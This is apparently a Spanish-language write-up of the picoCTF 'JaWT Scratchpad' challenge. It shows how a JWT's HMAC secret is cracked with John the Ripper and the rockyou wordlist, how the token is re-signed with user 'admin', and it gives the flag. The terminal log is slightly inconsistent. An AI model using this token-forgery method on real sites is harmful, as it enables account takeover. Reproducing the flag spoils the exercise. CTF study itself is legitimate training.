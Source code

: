 # JaWT Scratchpad

## Objetivo.

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

## Solución.

Logeamos a la pagina con el usuario Luis
La página nos regresa un token de usuario válido

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww

ingresamos a la página jwt.io
para cambiar la cookie, en el nombre de usuario cambiamos el nombre de Luis a admin

En kali pegamos el token de la cookie
┌──(kali㉿kali)-[~]
└─$ nano eltoken 
                                                                             
┌──(kali㉿kali)-[~]
└─$ cat eltoken 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.-vh-85mhRjMzTUsaJEWhgJwu-_EzDOy8zI0a9dik2Ww
                                                                             
┌──(kali㉿kali)-[~]
└─$ john         
John the Ripper 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP [linux-gnu 64-bit x86_64 SSE2 AC]
Copyright (c) 1996-2021 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]

Use --help to list all available options.

Luego ingresamos a la ruta usr/share/wordlists y descomprimimos el archivo rockyou.txt.gz

┌──(kali㉿kali)-[~]
└─$ /usr/share/wordlists
                                                                             
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ la    
amass      fasttrack.txt  legion      rockyou.txt.gz  wifite.txt
dirb       fern-wifi      metasploit  sqlmap.txt
dirbuster  john.lst       nmap.lst    wfuzz
                                                                             
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ gzip -d rockyou.txt.gz 
gzip: rockyou.txt: Permission denied
                                                                             
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ sudo gzip -d rockyou.txt.gz
[sudo] password for kali: 

┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ ls    
amass  dirb  dirbuster  fasttrack.txt  fern-wifi  john.lst  legion  metasploit  nmap.lst  rockyou.txt  sqlmap.txt  wfuzz  wifite.txt

Ahora regresamos a la carpeta usuario
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ cd         
                                                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ ls
Desktop  Documents  Downloads  el  eltoken  hacking  Music  Pictures  Public  Templates  Videos
                                                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ john eltoken -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico
0g 0:00:00:13 DONE (2023-03-14 11:34) 0g/s 1090Kp/s 1090Kc/s 1090KC/s !)(OPPQR..*7¡Vamos!
Session completed. 

con john obtenemos la siguiente palabra **ilovepico**

esa palabra la cambiamos en verify signature y cambiamos la cookie 
Si guardamos esa cookie y refrescamos obtenemos la bandera

picoCTF{jawt_was_just_what_you_thought_1ca14548}

## Notas opcionales.

## Referencias.

https://jwt.io/